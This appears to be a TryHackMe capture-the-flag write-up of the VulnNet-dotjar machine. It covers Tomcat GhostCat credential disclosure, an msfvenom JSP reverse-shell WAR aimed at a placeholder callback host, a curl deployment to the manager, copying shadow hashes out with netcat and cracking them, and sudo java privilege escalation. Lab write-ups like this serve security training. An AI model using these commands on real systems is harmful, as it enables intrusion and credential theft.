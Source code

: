 ```yaml
---
title: VulnNet-dotjar TryHackMe Writeup
tags: [writeup,rest,python,tryhackme,linux,api,suid]
style: border
color: success
description: ""
---
```



![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/1.png)

## Scanning
We scan with **nmap** all ports, scripts and software versions.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/2.png)

## Enumeration
On port 8080 we enumerate a web service with **Tomcat**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/3.png)

The **Tomcat** version is vulnerable to *"GhostCat"*, so using the following exploit we can exploit the vuln and read the credentials stored in *"WEB-INF/web.xml"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/4.png)

## Exploitation
We create a *.war file*
```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=XX.XX.XX.XX LPORT=XX -f war -o revshell.war
```
We cannot access from the graphical interface, but we can upload our *.war file* using **curl**.

```bash
curl --user 'user:password' --upload-file m3.war "http://dotjar.thm:8080/manager/text/deploy?path=/m3"
```

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/5.png)

#### Reverse shell

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/6.png)

We do a little reconnaissance, find a backup of the *"shadow"* file, transfer it to our kali with **netcat**.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/7.png)

We crack the hashes with the **rockyou** dictionary and get the plain password of the user *"jdk-admin"*.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/8.png)

We authenticate as the user *"jdk-admin"*, we see that we have access to the user flag and we can also execute the **java binary** as root.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/9.png)

## Privilege Escalation
Very easy, we generate a *reverse shell* with the **msfvenom** tool and download it to the victim machine.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/10.png)

We run the malicious binary as **SUDO**, we will get a shell as root and we can read the flag.

![](https://raw.githubusercontent.com/m3n0sd0n4ld/m3n0sd0n4ld.github.io/main/_posts/VulnNet-dotjar/11.png)




